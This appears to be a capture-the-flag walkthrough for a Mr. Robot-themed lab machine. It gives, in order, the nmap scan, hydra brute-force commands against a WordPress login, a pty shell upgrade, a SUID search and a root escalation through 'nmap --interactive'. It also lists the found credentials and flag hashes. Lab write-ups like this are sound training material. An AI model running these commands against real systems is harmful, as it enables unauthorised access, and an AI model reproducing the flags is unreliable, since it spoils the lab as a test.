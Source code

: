 # TASK 2

## [1] Nmap Scan

nmap -sV -O -T4 -Pn 10.10.102.122 -oN nmap/initial

Webserver running

## [2] Gobuster directory bruiteforcing

robots.txt

Secret 1 : 073403c8a58a1f80d943455fb30724b9

fsociety.txt found

wp-login.php found

## [3] Username bruiteforcing

hydra -L newFsocity.dic -p test 10.10.172.129 http-post-form "/wp-login.php:log=^USER^&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.172.129%2Fwp-admin%2F&testcookie=1:Invalid username"

Username : Elliot

## [4] Password bruitforcing

hydra -l Elliot -P newFsocity.dic 10.10.172.129 http-post-form "/wp-login.php:log=Elliot&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.172.129%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -I -t 64

Password : ER28-0652

## [5] Username password for user robot

python -c "import pty; pty.spawn('/bin/bash')"

User : robot
Password : abcdefghijklmnopqrstuvwxyz

Secret 2 : 822c73956184f694993bede3eb39f959

## [6] Prev Esc

find / -type f -perm -u=s &2>/dev/null

nmap hase SUID bit set.

nmap --interactive

Now we have nmap shell with root priv.

!ls /root

!cat /root/key-3-of-3.txt

Secret 3 : 04787ddef27c3dee1ee161b21670b4e4
